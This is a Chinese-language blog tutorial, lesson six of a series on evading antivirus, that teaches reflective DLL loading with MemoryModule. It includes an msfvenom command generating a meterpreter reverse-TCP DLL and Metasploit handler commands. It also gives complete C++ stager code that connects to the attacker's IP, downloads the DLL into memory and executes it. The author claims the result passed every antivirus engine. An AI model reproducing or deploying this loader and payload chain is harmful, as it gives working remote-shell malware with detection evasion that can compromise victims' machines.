





静态恶意代码逃逸（第六课）
本节课，我们来代入一个新的技术，这个技术与Windows PE格式的基础知识关联性较强，目的是实现全球AV查杀0报警的效果。
代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode
0x01 MemoryModule
先来介绍以下MemoryModule这个项目的来源。
项目背景：Windows操作系统在执行一个Windows PE格式的文件时，Windows自身是有一个Windows PE格式的解析器，通过PE格式把文件的各个节放入不同的内存区域。
爱折腾的程序员自己也想实现这个过程，那就是反射，这个反射机制就是将Windows PE格式通过自己写的代码进行解析，并把不同的节数据加载到内存中，通常这个反射加载技术被很多APT组织、大型渗透框架、病毒作者使用比较广泛。
当一个Windows PE格式的文件变成了一个内存中的字符串，意味着这个文件可以被任意方式去转换、加密、混淆，因此反病毒软件也难以查杀。
MemoryModule就是实现了这个过程：https://github.com/fancycode/MemoryModule
但是资料都是英文的，我在国内的社区上找到了中文版本的：https://gitee.com/china_jeffery/MemoryModule
0x02 反射DLL加载的实验
首先体验一下正常DLL加载的过程：
写一个DLL：
#include <Windows.h>
VOID msg(VOID){
MessageBox(NULL,TEXT("Test"),TEXT("Hello"),MB_OK);
return;
}
这里我采用了Def文件来进行导出：


#include <Windows.h>;
typedef VOID (*msg)(VOID);
int main()
{
msg RunMsg;
HMODULE hBadCode = LoadLibrary(TEXT("BadCode-DLL.dll"));
RunMsg = (msg)GetProcAddress(hBadCode,"msg");
RunMsg();
FreeLibrary(hBadCode);
return 0;
}
通过LoadLibrary这个API来加载DLL文件，使其运行，看起来是一个基础操作，那么还有另外一种方式吗？
接下来贴上MemoryModule的使用方法：
- 将要加载的PE文件读入内存
- 初始化MemoryModule句柄
- 装载内存
- 获得导出函数地址
- 执行导出函数
- 释放MemoryModule句柄
这里我将MemoryModule项目代码放入当前项目：

主要是：MemoryModule.h、MemoryModule.cpp
加载代码
#include <Windows.h>;
#include <stdio.h>
#include "MemoryModule.h"
typedef VOID (*msg)(VOID);
// 打开文件并获取大小
DWORD OpenBadCodeDLL(HANDLE & hBadCodeDll, LPCWSTR lpwszBadCodeFileName){
DWORD dwHighFileSize = 0;
DWORD dwLowFileSize = 0;
// 打开文件
hBadCodeDll = CreateFile(lpwszBadCodeFileName,GENERIC_READ,FILE_SHARE_READ,NULL,OPEN_ALWAYS,FILE_ATTRIBUTE_NORMAL ,NULL);
if(hBadCodeDll == INVALID_HANDLE_VALUE){
return GetLastError();
}
dwLowFileSize = GetFileSize(hBadCodeDll,&dwHighFileSize);
return dwLowFileSize;
}
int main()
{
msg RunMsg; // msg函数的函数指针
HMEMORYMODULE hModule; // MemoryModule句柄，应该可以这么理解,,
HANDLE hBadCodeDll = INVALID_HANDLE_VALUE; // 打开PE文件的句柄
WCHAR szBadCodeFile[] = TEXT("C:\\Users\\admin\\Documents\\Visual Studio 2012\\Projects\\BadCode\\Debug\\BadCode-DLL.dll"); // PE文件的物理路径
DWORD dwFileSize = 0; // PE文件大小
DWORD dwReadOfFileSize = 0; // 已读取的PE文件大小
PBYTE bFileBuffer = NULL; // PE文件的内存地址
// 打开文件
dwFileSize = OpenBadCodeDLL(hBadCodeDll, szBadCodeFile);
// 如果打开失败直接退出
if(hBadCodeDll == INVALID_HANDLE_VALUE){
return GetLastError();
}
// 申请放置PE文件的内存空间
bFileBuffer = new BYTE[dwFileSize];
// 读取文件
ReadFile(hBadCodeDll,bFileBuffer,dwFileSize,&dwReadOfFileSize,NULL);
// 如果读取错误直接退出
if(dwReadOfFileSize != dwFileSize){
return GetLastError();
}
// 关闭打开PE文件的句柄
CloseHandle(hBadCodeDll);
// 导入PE文件
hModule = MemoryLoadLibrary(bFileBuffer);
// 如果加载失败，就退出
if(hModule == NULL){
delete [] bFileBuffer;
return -1;
}
// 获取msg导出函数地址
RunMsg = (msg)MemoryGetProcAddress(hModule,"msg");
// 运行msg函数
RunMsg();
// 释放资源
MemoryFreeLibrary(hModule);
// 释放PE内存
delete [] bFileBuffer;
return GetLastError();
}
运行结果：

能够看到，成功加载并执行了msg函数。
0x03 反射DLL与MSF联动
不知道大家还是否记得第五课的Socket方式加载Shellcode，这里我将复用第五课的代码来实现与MSF的联动免杀。
思路是这样的：
通过Socket将Msf生成的DLL给接收到内存中，然后载入MemoryModule中，直接执行。
生成DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.170.138 LPORT=8899 -f dll -o ~/y.dll

生成了一个5120字节的DLL
然后设置一下MSF DLL发射器：
msf5 > handler -p windows/x64/meterpreter/reverse_tcp -H 192.168.170.138 -P 8899
[*] Payload handler running as background job 0.
[*] Started reverse TCP handler on 192.168.170.138:8899
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/patchupdllinject/reverse_tcp
payload => windows/patchupdllinject/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.170.138
LHOST => 192.168.170.138
msf5 exploit(multi/handler) > set LPORT 8888
LPORT => 8888
msf5 exploit(multi/handler) > set DLL ~/y.dll
DLL => ~/y.dll
msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.170.138:8888
msf5 exploit(multi/handler) >
此时就需要来撸码了，实现一个客户端，去Msf上获取DLL：
#include <WinSock2.h>
#include <Windows.h>
#include <stdio.h>
#include "MemoryModule.h"
#pragma comment(lib,"ws2_32.lib")
#define PAYLOAD_SIZE 1024*512
typedef BOOL (*Module)(HMODULE hModule, DWORD ul_reason_for_call , LPVOID lpReserved);
typedef VOID (*msg)(VOID);
PBYTE bFileBuffer = NULL;
BOOL GetPEDLL(){
DWORD dwError;
WORD sockVersion = MAKEWORD(2, 2);
WSADATA wsaData;
SOCKET socks;
SHORT sListenPort = 8888;
struct sockaddr_in sin;
if (WSAStartup(sockVersion, &wsaData) != 0)
{
dwError = GetLastError();
printf("[*]WSAStarup Error : %d \n",dwError);
return FALSE;
}
socks = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
if (socks == INVALID_SOCKET)
{
dwError = GetLastError();
printf("[*]Socket Error : %d \n",dwError);
return FALSE;
}
sin.sin_family = AF_INET;
sin.sin_port = htons(sListenPort);
sin.sin_addr.S_un.S_addr = inet_addr("192.168.170.138");
if(connect(socks,(struct sockaddr *)&sin,sizeof(sin)) == SOCKET_ERROR )
{
dwError = GetLastError();
printf("[*]Bind Error : %d \n",dwError);
return FALSE;
}
int ret = 0;
ret = recv(socks,(PCHAR)bFileBuffer,4,NULL);
ret = recv(socks,(PCHAR)bFileBuffer,2650,NULL);
ret = recv(socks,(PCHAR)bFileBuffer,4,NULL);
ret = recv(socks,(PCHAR)bFileBuffer,4,NULL);
ret = recv(socks,(PCHAR)bFileBuffer,4,NULL);
ZeroMemory(bFileBuffer,PAYLOAD_SIZE);
ret = recv(socks,(PCHAR)bFileBuffer,5120,NULL);
if (ret > 0)
{
closesocket(socks);
}
return TRUE;
}
// 打开文件并获取大小
DWORD OpenBadCodeDLL(HANDLE & hBadCodeDll, LPCWSTR lpwszBadCodeFileName){
DWORD dwHighFileSize = 0;
DWORD dwLowFileSize = 0;
// 打开文件
hBadCodeDll = CreateFile(lpwszBadCodeFileName,GENERIC_READ,FILE_SHARE_READ,NULL,OPEN_ALWAYS,FILE_ATTRIBUTE_NORMAL ,NULL);
if(hBadCodeDll == INVALID_HANDLE_VALUE){
return GetLastError();
}
dwLowFileSize = GetFileSize(hBadCodeDll,&dwHighFileSize);
return dwLowFileSize;
}
int main()
{
HMEMORYMODULE hModule;
Module DllMain;
bFileBuffer = new BYTE[PAYLOAD_SIZE];
GetPEDLL();
// 导入PE文件
hModule = MemoryLoadLibrary(bFileBuffer);
// 如果加载失败，就退出
if(hModule == NULL){
delete [] bFileBuffer;
return -1;
}
// 获取msg导出函数地址
DllMain = (Module)MemoryGetProcAddress(hModule,"DllMain");
// 运行msg函数
DllMain(0,0,0);
// 释放资源
DWORD dwThread;
HANDLE hThread = CreateThread(NULL,NULL,(LPTHREAD_START_ROUTINE)DllMain,NULL,NULL,&dwThread);
WaitForSingleObject(hThread,INFINITE);
MemoryFreeLibrary(hModule);
// 释放PE内存
delete [] bFileBuffer;
return GetLastError();
}
GetPEDLL函数主要是从MSF上获取DLL，通过recv函数不断接收，偏移获得DLL地址，然后扔给MemoryGetProcAddress。
实现效果如下：

0x04 总结
注意：学习的过程中，不同位数要对应不同的payload，编译平台也要互相对应
第六课就到这里了，主要是引入反射DLL加载这个技术，以及如何使用这个技术，如果想深入研究，还需要学习Windows PE相关的基础知识。
老样子，V站查杀一下：

挑战了全球的AV，全部通过
所有的新技术，都离不开强大的基础知识的铺垫，通过积攒基础知识，使自己能挑战更多的"不可能"。
网络安全爱好者、安全工具开发者
现阶段在进行红队相关的工作，我的博客会记录一些我的学习过程和部分安全技术研究成果。